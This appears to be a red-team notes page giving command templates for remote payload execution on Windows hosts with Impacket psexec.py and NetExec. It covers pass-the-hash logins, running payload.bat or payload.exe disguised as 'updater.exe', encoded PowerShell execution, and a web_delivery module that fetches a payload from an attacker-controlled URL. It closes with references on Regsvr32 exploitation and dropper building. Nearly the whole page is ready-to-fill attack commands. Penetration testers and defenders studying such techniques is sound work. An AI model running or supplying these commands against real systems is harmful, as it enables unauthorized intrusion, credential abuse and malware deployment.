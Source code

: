 # Manual

## 01 - Impacket

Execute `.bat` files.

```
$ psexec.py [<domain>/]<username>:<password>@<IP> -c payload.bat

$ psexec.py [<domain>/]<username>@<IP> -hashes :<nt_hash> -c payload.bat
```

Execute custom `.exe` service files.

```
$ psexec.py [<domain>/]<username>:<password>@<IP> -file payload.exe -c payload.exe -service-name <ServiceSVC> -remote-binary-name updater.exe

$ psexec.py [<domain>/]<username>@<IP> -hashes :<nt_hash> -file payload.exe -c payload.exe -service-name <ServiceSVC> -remote-binary-name updater.exe
```

## 02 - NetExec

Authenticate via username and password

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -x payload.bat

$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -x "powershell -E <base64_payload>"
```

Authenticate via Pass The Hash

```
$ netexec smb <IP> -u "<username>" -H <nt_hash> [-d <domain> | --local-auth] -x payload.bat

$ netexec smb <IP> -u "<username>" -H <nt_hash> [-d <domain> | --local-auth] -x "powershell -E <base64_payload>"
```

Refer to [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Linux/C2 Frameworks|web drive-by]] section.

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -M web_delivery -o URL=http://<attacker_IP>/[path/to/URI]

$ netexec smb <IP> -u "<username>" -H <nt_hash> [-d <domain> | --local-auth] -M web_delivery -o URL=http://<attacker_IP>/[path/to/URI]
```

---
## References

### Hacking Articles

- [Hacking Articles: Windows Exploitation Regsvr32](https://www.hackingarticles.in/windows-exploitation-regsvr32/)

### khast3x

- [khast3x blog: Payload Delivery for DevOps - Building a Cross-Platform Dropper Using the Genesis Framework, Metasploit and Docker](https://web.archive.org/web/20201020033213/https://khast3x.club/posts/2020-06-27-Cross-Platform-Dropper/)